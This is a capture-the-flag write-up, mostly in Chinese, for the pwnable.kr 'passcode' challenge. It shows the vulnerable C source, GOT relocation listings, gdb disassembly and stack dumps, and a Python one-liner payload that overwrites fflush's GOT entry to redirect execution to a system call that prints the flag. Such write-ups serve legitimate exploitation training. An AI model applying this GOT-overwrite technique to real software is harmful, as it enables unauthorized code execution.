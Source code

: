 ###### tags: `HackMD`
# pwnable 'pass'code
Source :
- [pwnable.kr](http://pwnable.kr/play.php)
- [gcc stack protection](https://www.ibm.com/developerworks/cn/linux/l-cn-gccstack/)
- [gcc stack protection2](https://kknews.cc/zh-tw/tech/38m3eo3.html)
- [linux got](http://blog.csdn.net/linyt/article/details/51635768)
- [linux got](http://www.freebuf.com/articles/system/135685.html)
---
## 程式原始碼
``` c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```
---
## solution
### 查got表
```
passcode@ubuntu:~$ readelf  -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
##使用這個位址
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```
### disas login
- 查完之後會發現scanf前的地址-0x10(%ebp) 剛好在'a'*96的後四位...
```gdb
gef➤  x/x $ebp -0x10
0xffffcff8:	0x0804a010
```
- 將位址替換成fflush
- scanf %d 0x080485e3(134514147),此處使很關鍵的地方表示fflush會被替換成
```0x080485e3 <+127>:	movl   $0x80487af,(%esp)```
- '\n' 應該表示是字串結尾
```
0xffffcff0:	0x61616161	0x61616161	0x0804a010	0x4ff54700
0xffffd000:	0x08048800	0xffffd0c4	0xffffd018	0x080486e0
0xffffd010:	0xf7fb23dc	0xffffd030	0x00000000	0xf7e18637
0xffffd020:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7e18637
0xffffd030:	0x00000001	0xffffd0c4	0xffffd0cc	0x00000000
0xffffd040:	0x00000000	0x00000000	0xf7fb2000	0xf7ffdc04
0xffffd050:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd060:	0x00000000	0xab31c77d	0x979a496d	0x00000000
```
``` gdb
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
##調用system
## 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
## 0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
``` python
print int("0x080485e3", 0)
134514147
python -c "print ('a'*96+'\x04\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode
 ```
 ### localtest
 ```gdb
     0x80485bc <login+33>       call   0x8048480 <__isoc99_scanf@plt>
    0x80485c1 <login+38>       add    esp, 0x10
    0x80485c4 <login+41>       mov    eax, ds:0x804a040
    0x80485c9 <login+46>       sub    esp, 0xc
    0x80485cc <login+49>       push   eax
 →  0x80485cd <login+50>       call   0x8048420 <fflush@plt> ＃call 0x080485e3
   ↳   0x8048420 <fflush@plt+0>   jmp    DWORD PTR ds:0x804a010
       0x8048426 <fflush@plt+6>   push   0x8
       0x804842b <fflush@plt+11>  jmp    0x8048400
       0x8048430 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a014
       0x8048436 <__stack_chk_fail@plt+6> push   0x10
       0x804843b <__stack_chk_fail@plt+11> jmp    0x8048400
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "passcode", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80485cd → Name: login()
[#1] 0x80486e0 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  n
[New process 25845]
process 25845 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "login" not defined.
[New process 25846]
process 25846 is executing new program: /bin/cat
lfagqqqqqq!!!!\n
[Inferior 3 (process 25846) exited normally]
enter passcode1 : Now I can safely trust you that you have credential :)
[*] No debugging session active
gef➤  

 ```